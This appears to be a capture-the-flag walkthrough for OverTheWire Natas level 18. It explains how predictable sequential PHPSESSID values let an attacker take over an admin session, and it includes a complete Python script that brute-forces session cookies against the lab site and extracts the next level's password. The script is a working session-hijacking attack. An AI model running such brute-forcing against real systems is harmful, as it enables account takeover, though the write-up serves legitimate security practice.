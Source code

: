 # 🔐 Natas18 Walkthrough
In this level, we're asked to log in as an admin user. When we look at the [view sourcecode]() we quickly see that there isn't an sql injection vunerability like the previous levels. Instead, the vunerability lies in ***session management.***

## What is session management?
Http sites are stateless, meaning that each user gets their own session. Here we "simply" need to get access to the admin's session via ***PHPSESSID***. When we log in with arbitrary credentials, the site sets a ***PHPSESSID*** cookie. By experimenting, we can see that: 

- Each login attempt generates a numeric PHPSESSID stored in the storage tab in the developer tools.
- These IDs are assigned sequentially (1, 2, 3, ...).
- The application store wheter a session belong to `admin` or another user, **based solely on the PHPSESSID value.**

```php
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
```

This means we can brute-forfce possible PHPSESSID values until we find one that belongs to an **admin's** session.

## Attack stategy

The sourcecode hints the maximum value of the ***PHPSESSID***:

```php
$maxid = 640; // 640 should be enough for everyone
```

1. Loop over all possible PHP SESSID values (1-640). 
2. For each one, send a request with that sessiod ID in the cookie.
3. Check the response - if it contains `"You are an admin"` - (via the sourcode aswell), then we've found the correct PHPSESSID.
4. The password for natas19 should be displayed on the page after you connect to an admin's session so we'll extract it from the website automatically too.

## The script

Here's the script to brute-force the session IDs:

```python
import requests, re, time, sys

# =======================
# === STYLING HELPERS ===
# =======================
GREEN = "\033[92m"
RED = "\033[91m"
YELLOW = "\033[93m"
CYAN = "\033[96m"
RESET = "\033[0m"

def log_info(message):
    print(f"{CYAN}[*] {message}{RESET}")

def log_success(message):
    print(f"{GREEN}[+] {message}{RESET}")


def log_progress_inline(message, color=CYAN):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}")
    sys.stdout.flush()

def log_found_inline(message):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}\n")
    sys.stdout.flush()


# =======================

# === CONFIG ===
url = "http://natas18.natas.labs.overthewire.org/"
username = "natas18"
natas18_password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas18...")

for sesID in range(phpsesidMin, phpsesidMax + 1):
    # Show inline progress
    log_progress_inline(f"Trying PHPSESSID={sesID}")

    cookies = {"PHPSESSID": str(sesID)}
    response = requests.get(url, cookies=cookies, auth=(username, natas18_password))

    if "You are an admin" in response.text:
        # Extract password
        match = re.search(r"Password:\s*(\S+)", response.text)
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas19 password: {password}")
            break
```

The script cycles through all possible PHPSESSID values (1-640). Once it finds the admin session, the servers responds with:
```
You are an admin. The password for natas19 is: <PASSWORD>
```

Copy the console output and let's get to the next level. (:
